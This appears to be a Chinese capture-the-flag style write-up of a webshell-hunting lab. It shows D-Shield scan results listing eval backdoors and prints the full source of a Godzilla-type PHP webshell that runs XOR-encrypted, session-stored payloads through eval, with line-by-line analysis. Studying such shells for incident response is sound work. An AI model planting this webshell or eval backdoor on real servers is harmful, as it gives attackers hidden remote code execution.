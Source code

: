 ### WebShell 查杀

话不多说，直接上题（玄机靶场）

![](https://pic1.imgdb.cn/item/681c759258cb8da5c8e58a47.png)

#### 黑客 WebShell 里面的 flag

推荐把文件 dump 下来

```
tar -czvf html.tar.gz ./
```

然后使用 D 盾扫描

![](https://pic1.imgdb.cn/item/681c7b5158cb8da5c8e5914f.png)

```
 id      级别  大小       CRC        修改时间             文件 (说明)
 --------------------------------------------------------------------------------------------------------------------------------------------
 00001   4     38         FEE1C229   23-08-02 10:52:25    \html\shell.php     『Eval后门 {参数:$_REQUEST[1]}』
 00002   4     808        3F54B485   23-08-02 10:56:39    \html\include\gz.php  『(内藏)Eval后门 {参数:encode($_SESSION[$payloadName],"3c6e0b8a9c15224a")}』
 00003   3     205        D6CF6AC8   23-08-02 16:56:29    \html\wap\top.php   『变量函数[$c($fun)]|可疑文件』
 00004   4     768        3DEFBD91   23-08-02 11:01:06    \html\include\Db\.Mysqli.php  『(内藏)Eval后门 {参数:encode($_SESSION[$payloadName],"3c6e0b8a9c15224a")}』
 --------------------------------------------------------------------------------------------------------------------------------------------
```

这里猜测 WebShell 应该就是 `gz.php`

```php
<?php  
@session_start();  
@set_time_limit(0);  
@error_reporting(0);  
function encode($D,$K){  
    for($i=0;$i<strlen($D);$i++) {  
        $c =$K[$i+1&15];  
        $D[$i] = $D[$i]^$c;  
    }  
    return $D;  
}  
//027ccd04-5065-48b6-a32d-77c704a5e26d  
$payloadName='payload';  
$key='3c6e0b8a9c15224a';  
$data=file_get_contents("php://input");  
if ($data!==false){==    ==$data=encode($==​==data,$key);if (isset(==​==$_SESSION[$==​==payloadName])){==        ==$payload=encode($==​==_SESSION[==​==$payloadName],$==​==key);if (strpos($payload,&quot;getBasicsInfo&quot;)===false){==            ==$payload=encode($==​==payload,$key);}eval($payload);echo encode(@run(==​==$data),$==​==key);}else{if (strpos($data,&quot;getBasicsInfo&quot;)!==false){  
            $_SESSION[$payloadName]=encode($data,$key);  
        }  
    }  
}
```

简单分析一下这段恶意代码；

```php
@session_start();  
@set_time_limit(0);  
@error_reporting(0);
```

**`@session_start()`**：启动 PHP 会话，用于保存 payload，实现持久化控制

**`@set_time_limit(0)`**：取消脚本执行时间限制，方便长时间运行

**`@error_reporting(0)`**：关闭所有错误报告，用于隐藏异常，避免暴露恶意代码

```php
function encode($D,$K){  
    for($i=0;$i<strlen($D);$i++) {  
        $c =$K[$i+1&15];  
        $D[$i] = $D[$i]^$c;  
    }  
    return $D;  
}
```

🔐**加解密函数 encode($D, $K)**

- `^` 是按位异或操作，执行的是一种对称加密
- `$K[$i+1 & 15]` 取 key 的某一位进行 XOR
  - `& 15` 等价于 `mod 16`，保证 `$K` 用的是前 16 个字符
- 每次运行 encode 都是同一加密过程，**再次 encode 相当于解密**

```php
$key='3c6e0b8a9c15224a';  
$data=file_get_contents("php://input");
```

`php://input` 用于接收原始 POST 数据（非 `$_POST[]` 的方式），常用于接收二进制数据或绕过防护

`$key` 是攻击者设置的密钥，用于数据加密解密

```php
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key); // 再次解密
        }
        eval($payload); // 执行解密后的 payload
        echo encode(@run($data),$key); // 回显执行结果
    } else {
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key); // 存储 payload（已加密）
        }
    }
}
```

**🔸 阶段一：存储 Payload（Session 持久化）**

- 攻击者发送带有字符串 `"getBasicsInfo"` 的特制 payload（经过 encode 加密）
- 脚本判断是否含有该特征字符串
- 如果是，则将其加密后写入 `$_SESSION[$payloadName]`

**🔸 阶段二：执行 Payload**

- 攻击者再次访问此脚本，POST 加密的命令数据
- 脚本从 session 中取出 payload，进行 **1 次或 2 次解密**（根据是否仍含有 `"getBasicsInfo"` 字样）
- 然后 `eval($payload)` 执行这个 payload（**典型 RCE**）
- 最后，调用 payload 中定义的 `run($data)` 函数，将刚才传入的加密命令作为参数，并将其返回结果加密后输出

```
flag1：flag{027ccd04-5065-48b6-a32d-77c704a5e26d}
```

#### 黑客使用的什么工具的 Shell

遇到这种类型的题目，我们就是要分析一下是什么类型的 WebShell

其实开头三句就可以分析出是哥斯拉的了

```
@session_start();  
@set_time_limit(0);  
@error_reporting(0);
```
